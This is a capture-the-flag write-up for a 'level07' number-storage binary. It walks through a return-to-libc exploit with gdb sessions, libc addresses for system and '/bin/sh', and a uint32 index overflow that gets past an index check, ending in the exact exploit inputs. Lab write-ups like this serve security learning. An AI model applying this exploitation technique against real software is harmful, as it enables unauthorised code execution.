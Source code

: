 This binary provides a simple number storing interface with three commands:

store, saves input number (int == 4 bytes) at input index (offset = index * 4).
read, display number stored at input index.
quit, exit the program.

The store function has two conditions, it has to be stored at an index divisible by 3 and when right byte shifted by 0x18 (24) is equal to 0xb7 (183).

let's use gdb to to re Ret2Lib attack:

(gdb) b *0x08048636 ; sets a breakpoint in the store_number function
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048636 in store_number ()

(gdb) x $ebp+0x8 ; examining the value stored to control the return adress
0xffffd4c0:	0xffffd4e4

(gdb) info function puts ; getting the address of the puts function of the libc to use as part of the ret2lib attack
0x080484c0  puts

(gdb) info proc map

lists various mapped address spaces, including the address spaces of the executable program and its dynamically linked libraries. To perform a Return-to-Libc attack, you typically want to target a library function. In this case, it's the system function.

0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so

(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec

(gdb) info functions system ; to get 
0xf7e6aed0  system

examining the value at the top of the stack ($esp). The value is 0xf7e45513, which could be an address or an argument for a function call.
(gdb) b *0x080489f1 
(gdb) c ; continue

Address of "/bin/sh" 0xf7f897ec = 4160264172 address of system 0xf7e6aed0 = 4159090384 EIP Offset 0xffffd5c8 - 0xffffd400 = 456 so 114

114 modulo 3 equals to 0 s so we can't use it directly

(gdb) x/wx $esp
0xffffd5c8:	0xf7e45513

let's overflow the uint32
0xffffffff / 4 + 114 + 1 = 1073741938

Number : 4160264172 Index : 116 Number : 4159090384 Index : 1073741938

quit
